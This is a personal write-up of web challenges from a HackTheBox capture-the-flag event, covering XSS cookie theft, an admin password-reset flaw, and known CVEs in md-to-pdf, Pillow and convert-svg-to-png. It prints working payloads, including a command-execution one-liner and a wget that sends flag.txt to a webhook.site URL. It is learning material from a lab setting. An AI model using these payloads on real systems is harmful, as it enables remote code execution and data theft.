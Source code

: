 ```yaml
---
title: "Cyber Apocalypse CTF 2022"
date: 2022-05-23
description: "Cyber Apocalypse CTF 2022"
menu:
  sidebar:
    name: Cyber Apocalypse CTF 2022
    identifier: Cyber Apocalypse CTF 2022
    weight: 10
---
```


## Intro

I have decided to write on my experience at this years HackTheBox CTF event. Apologies for the short writeups. They were taking from the mess of notes and whatever screenshots I had taken to share with the group for discussion. I didn’t plan ahead to write a post about it after so learning better note keeping is definitely going on the list!

## Kryptos Support

For this task we were simply given a page saying “Report any issues regarding the Kryptos Vault below” and an input field similar to a reporting system where after submission the admin checks our report.

Immediately XSS came to mind and I submitted a request that would send the cookie to my [https://webhook.site/](https://webhook.site/) link if it didn’t have security in place to stop the cookie from being sent. Easily enough the cookie was sent to the webhook.site link I supplied and I used this to gain access to the sites /tickets page.

![20220523130527770](img-paste-20220523130527770.png)

This is where I first got stuck. We are given serials for the vaults but if we make a request asking for a new rfid how do we intercept the admins reply?

After giving up on trying to discover a way to intercept a request over XSS I explored some more and found a password reset function at /setting. Intercepting this with Burp reveled there was two fields required, “password” and “uid”. As in most cases the first id given on a system will belong to the admin I tried changing the uid to 1 and was successfully able to login as admin!

![20220523130712731](img-paste-20220523130712731.png)

This was all that was required to achieve the flag.

## Blinkerfluids

For this one we were given the option to download the docker file. I downloaded the file while starting up the instance and had a quick look through it to see what I would be dealing with.

In one file the dependencies were listed.

```
"dependencies": {
"express": "4.17.3",
"md-to-pdf": "4.1.0",
"nunjucks": "3.2.3",
"sqlite-async": "1.1.3",
"uuid": "8.3.2"
```

So I immediately did a google search on each of these to see what the newest versions were. Then did a google search on any that were not at latest versions. This brought me to a vulnerability in md-to-pdf:

[https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880)

I had to do a bit of research into JavaScript Front Matter to understand the payload and how I would need to use it on the site. Afterward I intercepted a request from /api/invoice/add and played around with the payload and worked with a team member to find one that worked:

`--js\n((require('child_process')).execSync('id > /tmp/RCE.txt'))\n---RCE`

From there we simply had to change id to ls and locate the flag!

## Amidst Us

This one turned out to be a simple and cute site with the ability to upload images that replace the two sus peeps on the page. This makes a post request to /api/alphafy that looks like `{ “image”:”iVBORw...ElFTkSuQmCC” ,”background”:[ 255, 255, 255 ] }`

After downloading the docker image and having a look through the use of ImageMath.eval stands out to the group as it has a known vulnerability, CVE-2022-22817. [https://www.cvedetails.com/cve/CVE-2022-22817/](https://www.cvedetails.com/cve/CVE-2022-22817/)

This allowed us to use the payload `"exec('import os;os.system(\"flag=$(cat ../flag.txt);wget https://webhook.site/webhook_uuid?flag=${flag}\")')"` in any of the `background` parameters to get the flag.

## Mutation Lab

This challenge was using the convert-svg-to-png nodejs package which with a little googling reveled it had a known vulnerability CVE-2021-23631. [https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGTOPNG-2348244](https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGTOPNG-2348244). With this POC I sent the request to /api/export over to repeater and played around.

![20220523131416470](img-paste-20220523131416470.png)

![20220523131507969](img-paste-20220523131507969.png)

This was an immediate success but not an easy win. As a lengthy and somewhat blind search of the system reveled no flag to find. I went back to the other challenge dockers and used them to figure out some of the paths and files for this web app and read through the code on each many times trying to figure out what to do next.

Eventually I came across /app.env which gave me the SESSION_SECRET_KEY.

![20220523131637230](img-paste-20220523131637230.png)

Unfortunately I did not know how to write code to get the admin cookie from this so I was stuck there.

## Conclusion

I was able to see how much further I have come from last years attempt at this event. I was quite new to CTF events and felt like I didn’t know enough to join a group. This year I had enough confidence to join a group. Sadly it only ended up having 4 of the 10 people allowed and 2 of those gave up and went silent after the first day. But even having one other to work with and bounce thoughts back and forth was such a better experience!

I am happy with how quickly I was able to recognize where the vulnerabilities likely were and what we were meant to do to achieve the flag. It thought me that I have much to learn with actually exploiting the vulnerabilities so I don’t give up the obvious direction too quickly and waste too much time looking for possible alternatives instead.

I look forward to spending more time learning on HackTheBox machines now after I finish this sub with PentesterLab, as I now believe there is much more I can learn there and that I am ready to step a little away from the more hand held platforms.
